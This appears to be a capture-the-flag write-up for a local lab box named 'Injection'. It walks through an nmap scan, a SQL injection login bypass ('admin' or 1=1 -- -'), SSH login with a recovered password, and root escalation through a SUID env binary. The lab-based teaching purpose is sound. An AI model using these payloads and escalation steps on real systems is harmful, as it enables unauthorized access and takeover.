


# Injection

## Port Enumeration

To begin our scan, we use the Nmap tool  during our discovery phase. As we can see, we have the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

## Examining the Web Page
We access the web page hosted on the Apache server and find this:



## Intrusion

We can gain access with a simple SQL injection attack:


```ruby
Login: admin' or 1=1 -- - 
Password: admin
```

Successfully, we access the login panel:



We observe one user and possibly a password that we can try with the SSH service.

```ruby
ssh dylan@172.17.0.2 
```

We try the password KJSDFG789FGSDF78:

We successfully gain access!

## Privilege Escalation

For privilege escalation, we need to identify which files we can execute with root privileges.

To find these files, we need to execute this command:

```ruby
sudo -l
```
We notice that we can't execute this command because it doesn't exist. So, we can search for binaries with SUID permissions using this command:

```ruby
find / -perm -4000 -user root 2>/dev/null
```

we obtain this results:

```ruby
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/newgrp
/usr/bin/su
/usr/bin/env
/usr/bin/umount
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/chfn
```

If we examine the different results, we find a binary file named "env". We can execute this command to potentially gain root privileges:

```ruby
/usr/bin/env /bin/sh -p
```

Finally, we gain access as the root user.